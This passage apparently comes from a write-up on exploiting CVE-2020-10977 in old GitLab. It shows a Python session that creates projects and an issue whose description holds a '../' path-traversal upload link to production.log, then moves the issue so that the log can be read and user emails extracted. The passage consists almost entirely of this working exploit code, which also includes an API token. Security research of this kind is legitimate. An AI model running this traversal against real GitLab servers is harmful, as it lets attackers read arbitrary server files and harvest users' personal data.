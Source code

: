 Now I want to get `production.log` for the first time to extract some user emails:

```python
Python 3.9.1 (default, Dec  8 2020, 07:51:42)
>>> import requests
>>> from gitlab import *
>>> session = requests.Session()
>>> session.verify = False
>>> host = 'http://gitlab.local'
>>> gl = Gitlab(host, private_token='B-XXqsurLyn5yPsXmrER', session=session)
>>> gl.auth()
>>> p1 = gl.projects.create({'name': 'project-1'})
>>> p2 = gl.projects.create({'name': 'project-2'})
>>> issue = p1.issues.create({'title': 'project-1-issue', 'description': '![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../var/log/gitlab/gitlab-rails/production.log)'})
>>> issue.description
'![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../var/log/gitlab/gitlab-rails/production.log)'
>>> issue.move(p2.id)
```

[![burp-extract-email.png](/assets/images/exploiting-cve-2020-10977-on-old-gitlab/burp-extract-email.png)](/assets/images/exploiting-cve-2020-10977-on-old-gitlab/burp-extract-email.png)
